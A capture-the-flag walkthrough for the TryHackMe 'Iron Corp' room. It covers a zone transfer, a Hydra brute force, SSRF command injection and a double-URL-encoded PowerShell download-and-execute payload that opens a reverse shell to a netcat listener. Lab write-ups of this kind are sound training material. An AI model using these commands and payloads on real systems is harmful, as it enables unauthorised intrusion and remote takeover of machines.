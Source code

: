 # [Iron Corp](https://tryhackme.com/room/ironcorp)

## Can you get access to Iron Corp's system?

# Iron Corp

### user.txt

1. Add the target IP to the hosts file for proper domain resolution

```bash
sudo echo "IP ironcorp.me" >> /etc/hosts
```

2. Perform port scan to identify running services
   - **Results:** The scan reveals services running on multiple ports, including web services on port 11025.

```bash
nmap -p- -sV ironcorp.me
```

<img width="724" height="290" alt="SCREEN01" src="https://github.com/user-attachments/assets/c60fd6b3-31d9-432c-8f92-6e6a28da2547" />

3. Attempt a DNS zone transfer to discover additional subdomains
   - **Results:** The zone transfer reveals two additional subdomains: `admin.ironcorp.me` and `internal.ironcorp.me`.

```bash
dig axfr @ironcorp.me ironcorp.me
```

<img width="726" height="294" alt="SCREEN02" src="https://github.com/user-attachments/assets/5aa37ca0-b8bc-4dcf-a9b7-4be76c81b70f" />

4. Add the discovered subdomains to the hosts file

```bash
sudo sh -c 'echo "IP admin.ironcorp.me" >> /etc/hosts && echo "IP internal.ironcorp.me" >> /etc/hosts'
```

5. The admin panel at `http://admin.ironcorp.me:11025/` requires HTTP Basic Authentication. Use Hydra to brute force the credentials
   - **Credentials found:** `admin:password123`

```bash
hydra -l admin -P /root/Tools/wordlists/rockyou.txt -s 11025 admin.ironcorp.me http-get
```

<img width="721" height="287" alt="SCREEN03" src="https://github.com/user-attachments/assets/5b34ada4-c1f4-4a34-8a0d-394fa2e68d22" />

6. After authenticating to the admin panel, test for SSRF vulnerabilities. The application accepts a parameter `r` that makes requests to internal services
   - Test command injection through SSRF: `http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=test|whoami`
   - **Result:** Command execution confirmed - returns `nt authority\system`, indicating the web service runs with high privileges.

<img width="969" height="199" alt="SCREEN04" src="https://github.com/user-attachments/assets/b458a285-99fc-4287-af34-402b41babfa8" />

7. Set up a local HTTP server to host the PowerShell reverse shell payload

```bash
python -m SimpleHTTPServer
```

8. Set up a netcat listener to catch the reverse shell

```bash
nc -lvnp 4444
```

9. Download and modify a PowerShell reverse shell script from: [github.com/vulware/powershell-reverse-shell-](https://github.com/vulware/powershell-reverse-shell-/blob/master/powershell%20tcp%20reverse%20shell.ps1)

   - Update the IP address and port in the script to match your attacking machine

10. The SSRF vulnerability requires double URL encoding to bypass filters. Encode the following PowerShell command:

```powershell
powershell.exe -c iex(new-object net.webclient).downloadstring('http://IP:8000/shell.ps1')
```

Using [CyberChef](https://gchq.github.io/CyberChef/), double URL encode the payload:

```
powershell%252Eexe%2520%252Dc%2520iex%2528new%252Dobject%2520net%252Ewebclient%2529%252Edownloadstring%2528%2527http%253A%252F%252F10%252E10%252E240%252E255%253A8000%252Fshell%252Eps1%2527%2529
```

<img width="1679" height="550" alt="SCREEN06" src="https://github.com/user-attachments/assets/64e23c12-bdbf-4fdf-9032-41cb4e4160a3" />

11. Execute the payload through the SSRF vulnerability: `http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=test|powershell%252Eexe%2520%252Dc%2520iex%2528new%252Dobject%2520net%252Ewebclient%2529%252Edownloadstring%2528%2527http%253A%252F%252F10%252E10%252E240%252E255%253A8000%252Fshell%252Eps1%2527%2529`

    - This should trigger the reverse shell connection to your netcat listener

12. Navigate to the user directory and retrieve the first flag

```bash
cd C:\Users
more Administrator\Desktop\user.txt
```

<img width="445" height="39" alt="SCREEN05" src="https://github.com/user-attachments/assets/39bc3eec-b8fa-4e02-9ef7-ede6119eca6f" />

---

### root.txt

1. Check access permissions for potential privilege escalation paths, and access the SuperAdmin directory to retrieve the root flag

```bash
get-acl c:\users\SuperAdmin | fl
type c:\users\superadmin\desktop\root.txt
```

<img width="722" height="289" alt="SCREEN07" src="https://github.com/user-attachments/assets/ff0640b0-2fe2-4b90-b285-d0c1ebcb0130" />
